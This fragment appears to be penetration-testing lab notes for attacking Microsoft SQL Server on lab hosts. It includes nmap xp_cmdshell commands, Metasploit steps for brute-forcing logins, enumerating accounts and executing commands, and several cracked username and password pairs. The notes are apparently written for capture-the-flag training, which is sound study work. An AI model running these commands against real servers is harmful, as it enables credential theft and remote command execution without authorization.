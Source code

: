 ```bash
john@kali> nmap 10.2.18.228 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd='more C:\flag.txt'
```

Credentials : `admin:anamaria` `dbadmin:bubbles1` `auditor:jasmine1`

#### MSSQL Metasploit

```bash
john@kali> ip a
john@kali> nmap 10.2.17.166
john@kali> nmap 10.2.17.166 -p 1433 -sV

# 1. Discover valid users and their passwords
john@kali> msfconsole
msf6> use scanner/mssql/mssql_login
msf6> set username ""
msf6> set user_file /root/Desktop/wordlist/common_users.txt
msf6> set pass_file /root/Desktop/wordlist/100-common-passwords.txt
msf6> set rhosts 10.2.17.166
msf6> set verbose false
msf6> run

# 2. Enumerate MSSQL configuration
msf6> use admin/mssql/mssql_enum
msf6> set rhosts 10.2.17.166

# 3. Enumerate all MSSQL logins
msf6> use admin/mssql/mssql_enum_sql_logins
msf6> set rhosts 10.2.17.166
msf6> run

# 4. Execute a command on the target machine
msf6> use admin/mssql/mssql_exec
msf6> set rhosts 10.2.17.166
msf6> set cmd whoami
msf6> run

# 5. Enumerate all available system users
msf6> use admin/mssql/mssql_enum_domain_accounts
msf6> set rhosts 10.2.17.166
msf6> run
```

Credentials : `admin:bubbles1` `sa:` `dbadmin:anamaria` `auditor:nikita`
